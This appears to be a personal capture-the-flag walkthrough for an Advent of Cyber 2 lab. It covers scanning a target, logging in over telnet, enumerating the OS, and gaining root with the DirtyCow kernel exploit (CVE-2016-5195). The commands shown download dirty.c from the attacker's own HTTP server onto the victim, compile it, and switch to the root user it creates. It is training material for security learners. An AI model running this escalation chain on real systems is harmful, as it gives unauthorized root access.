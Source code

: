 # [Special by John Hammond] Sysadmin &amp; Combined skills 

IP: 10.10.54.125

Advent of Cyber 2: 

### Port Scanning:
- `nmap -sC -sV 10.10.54.125`
- `telnet` is deprecated.

### Initial Access
- *Connect to this service to see if you can make use of it. You can connect to the service with the standard command-line client, named after the name of the service, or netcat with syntax like this:*
- I needed to install telnet.
- `telnet 10.10.54.125 <port>` (this case it's 23)

### Enumeration
- `cat /etc/*release`: see the ubuntu version
- `uname -a`: kinda 
- `cat /etc/issue`: description
- https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
- Answer 1: `ubuntu 12.04`
- `cat cookies_and_milk.txt`
- Answer 2 (who got here first?): `grinch`
- `That C source code is a portion of a kernel exploit called DirtyCow. Dirty COW (CVE-2016-5195) is a privilege escalation vulnerability in the Linux Kernel, taking advantage of a race condition that was found in the way the Linux kernel's memory subsystem handled the copy-on-write (COW) breakage of private read-only memory mappings. An unprivileged local user could use this flaw to gain write access to otherwise read-only memory mappings and thus increase their privileges on the system.`
- https://dirtycow.ninja/
- Start a Python http server on our machine: `python -m SimpleHTTPServer 8000`
- I downloaded a `dirty.c` from github at place it in our machine.
- On the victim's machine: `wget http://10.2.51.175:8000/dirty.c`
- `gcc -pthread dirty.c -o dirty -lcrypt`

### Privilege Escalation
- Run the c code
- The new user is `firefart`
- Switch to the new user `su firefart`
- `cd /root`
- `cat message_....txt`
- `touch coal`
- `tree | md5sum` which is the flag itself! :D
